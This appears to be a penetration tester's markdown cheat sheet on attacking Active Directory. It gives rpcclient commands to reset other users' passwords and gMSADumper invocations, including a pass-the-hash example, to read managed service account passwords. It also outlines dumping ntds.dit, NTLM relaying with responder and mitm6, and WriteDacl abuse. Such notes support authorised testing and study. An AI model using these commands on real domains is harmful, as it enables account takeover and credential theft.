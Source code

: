 # active directory 

## NTLMv2 vs kerberos authentication on the network
NTLMv2 authentication is still often enabled on company LAN.
it is very rare for it to be completely disabled across the domain.
most domains will prefer kerberos, but will allow NTLMv2 as a backup.

## ForceChangePassword change user password
can exploit with impacket
payloadsallthethings "Active Directory Attack.md"
```bash
rpcclient $IP -U username -W domain.local
```
within rpcclient shell
```
setuserinfo2 targetuser 23 targetnewpwd
```

## Backup Operators group
permissions to back up files. can back up C drive to dump ntds.dit

## sensitive files
ntds.dit - domain credentials

## mindset and methodology
cycle:
- compromise creds
- access services
- abuse permissions to get more permissions

## workflow for penetration test on windows network in organization
- responder
- mitm6
  - combine with responder to attack ipv6 dns requests traffic
  - combine with ntlmrelayx

## GMSA group managed service account
windows AD account with randomized, changing password to prevent kerberoasting service accounts

### read GMSA passwords python script
https://github.com/micahvandeusen/gMSADumper
```bash
python3 gMSADumper.py -u user -p password -d domain.local

# Pass the Hash, specific LDAP server:
python gMSADumper.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local

# Kerberos Authentication, specific LDAP server:
python gMSADumper.py -k -d domain.local -l dc01.domain.local
```

## change user password with rpcclient over SMB 
```bash
rpcclient -U helpdesk //$IP
rpcclient $> setuserinfo2 adminuser 23 'ASDqwe123'
```

## exploiting WriteDacl
- give owned user access to GenericAll permissions over group or account
- change the password
